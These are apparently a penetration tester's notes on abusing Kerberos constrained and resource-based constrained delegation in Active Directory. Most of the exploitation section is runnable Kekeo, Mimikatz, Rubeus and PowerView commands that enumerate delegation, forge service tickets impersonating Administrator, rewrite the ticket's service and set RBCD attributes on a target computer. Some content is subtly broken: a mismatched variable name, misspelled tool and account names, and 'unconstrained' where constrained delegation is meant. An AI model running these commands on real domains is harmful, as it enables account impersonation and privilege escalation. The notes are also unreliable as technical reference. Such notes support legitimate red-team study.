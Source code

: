 ```yaml
---
category: Uncategorized
tags: []
---
```

#kekeo #mimikatz #powershell 
- [Unconstrained Delegation](Unconstrained%20Delegation.md) is dangerous, as it allows services to impersonate user and access any service.
- S4U restricts this and only allows delegation to certain services.
	- Service for User to Proxy (S4U2Proxy)
	- Service for User to Self (S4U2Self)
- No TGT is required in this extention.
### S4U2Self
- Kerberos delegation when the client does not support Kerberos protocol. (Protocol Transition)
- In this scenario, the service which has the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` flag set, can request a TGS for the another service for the user. 
### S4U2Proxy
This extension allows a service to request another service on behalf of the user by using `ST` instead of `TGT`.
The service can only ask for impersonation `ST` for certain services defined in one of the following ways:
- **Classic Constrained Delegation**: `msDS-AllowedToDelegateTo` attribute of the service account. It contains [SPN](TechLexicon/Penetration%20Testing/Exploitation/Active%20Directory/AD%20Concepts/Services.md) of the services for which the service account can ask ST for. To edit this parameter, `SeEnableDelegationPrivilege` priv is required.
- **Resource Based Constrained Delegation**: The service account is mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the target service for which the service account will ask ST for.
---
Constrained Delegation works in one of the two ways:
- S4U2Proxy (`TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION`) + S4U2Self (Classic Constrained Delegation) (`msDS-AllowedToDelegateTo`)
	- The compromised user/machine account should have the `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` in the UAC, and the service for delegation should be mentioned in the `msDS-AllowedToDelegateTo` attribute of the compromised user/machine.
- S4U2Self (Resource Based Constrained Delegation) (`msDS-AllowedToActOnBehalfOfOtherIdentity`)
	- This moves the delegation authority to the the service/resource owner, instead of the administrator. Or in fact any user, having `Full` or `GenericWrite` over the target service.
	- The service account that can request ST should be mentioned in the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute of the delegated service's service account.
# Exploitation
## Classic Constrained Delegation
Classing Constrained Delegation involves compromising a account with `TRUSTED_TO_AUTHENTICATE_FOR_DELEGATION` and some SPNs in `msDS-AllowedToDelegateTo` attribute. We can simply tell the compromised user/computer account to ask for ST for the service mentioned in the `msDS-AllowedToDelegateTo`.
### Enumeration
- Enumerating users and computers which constrained delegation enabled using
- Powerview:
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```
- Active Directory Module
```powershell
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDeleagateTo
```
- Kekeo
```powershell
kekeo tgt::ask /user:svcIIS /domain:mydomain.local /password:Qwer1234.
# this will save the TGT file to the disk
# use this TGT to request TGS for the delegated service
kekeo tgs::s4u /tgt:<tgt_file> /user:<user_to_inpersonate> /service:<service_allowed_to_delegate_to>
# this will save the TGS to the disk
# we can load this ticket it memory
mimikatz kerberos::ptt <ticket_file>
```
- Rubeus
```powershell
# This will use the TGT of websvc to ask for ST of impersonator user to access the msdss delegated service, and inject the ticket in memory
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```
> unconstrained delegation performs no validation for the service mentioned in the `msDS-AllowedToDelegateTo`, hence, we can request the ST for the intended service and modify the ticket for another service. We can the add the `/altservice:<protocol>` to rubeus to modify the service ticket. Hence, the below command will request ST for the `msdsspn` account and modify the service.
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt /altservice:ldap
```
## RBCD
RBCD exploitation Involves having write access to an object that we want to exploit.
- Set up RBCD attribute on the target service.
- Using AD Module
```powershell
# We should already have local admin access on the computer1 account.
$compputers = "mycomputer$";
Set-ADComputer -Identity targetcomputer -PrincipalsAllowedToDelegateTo $computers;
```
- Powerview
```powershell
# Set RBCD delegation
Set-DomainRBCD -Identity targetcomputer -DelegateFrom 'mycomputer$';
# We can verify the same using
Get-DomainRBCD
```
- We can now use the same s4u module from rubeus to impersonate a user
```powershell
.\rubues.exe s4u /user:<username> /aes256:<aesKey> /impersonateuser:Aministrator /msdsspn:CIFS/sqlserver.domain.local /ptt
```

